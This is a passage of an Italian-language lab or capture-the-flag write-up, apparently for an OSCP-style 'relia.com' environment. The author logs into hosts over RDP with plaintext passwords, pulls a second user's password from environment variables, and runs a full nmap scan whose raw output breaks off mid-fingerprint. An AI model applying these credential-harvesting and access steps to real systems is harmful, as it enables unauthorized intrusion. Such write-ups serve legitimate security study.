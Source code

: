 Accedo tramite rdp con le credenziali dell'utente emma appena trovate e trovo la flag local.txt:

```bash
xfreerdp /cert-ignore /u:emma /d:relia.com /p:"SomersetVinyl1\!" /v:192.168.173.248
```

Lanciando il comando:

```bash
dir env:
```

Trovo la password dell'utente mark (non l'avrei mai detto):

```bash
!8@aBRBYdb3!
```

Accedo tramite xfreerdp e trovo la flag proof.txt

```bash
xfreerdp /cert-ignore /u:mark /d:relia.com /p:"\!8@aBRBYdb3\!" /v:192.168.173.248
```

## 192.168.X.249 - LEGACY {pwned:local&proof}

```bash
nmap -sC -sV -O -p- 192.168.X.249
```

```bash
Nmap scan report for 192.168.204.249 (192.168.204.249)
Host is up (0.038s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-05-20T10:58:00+00:00; -8s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LEGACY
|   NetBIOS_Domain_Name: LEGACY
|   NetBIOS_Computer_Name: LEGACY
|   DNS_Domain_Name: LEGACY
|   DNS_Computer_Name: LEGACY
|   Product_Version: 10.0.20348
|_  System_Time: 2024-05-20T10:57:52+00:00
| ssl-cert: Subject: commonName=LEGACY
| Not valid before: 2024-05-11T16:21:04
|_Not valid after:  2024-11-10T16:21:04
8000/tcp open  http          Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.30)
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.204.249:8000/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/20%OT=80%CT=1%CU=40400%PV=Y%DS=4%DC=I%G=Y%TM=664B
OS:2CC0%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=4%ISR=107%TI=RD%TS=A)SEQ(SP=10
OS:6%GCD=1%ISR=10A%TI=I%TS=A)SEQ(SP=106%GCD=1%ISR=10B%TI=I%TS=A)OPS(O1=M551
OS:NW8ST11%O2=M551NW8ST11%O3=M551NW8NNT11%O4=M551NW8ST11%O5=M551NW8ST11%O6=
OS:M551ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%DF=
OS:Y%T=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q
```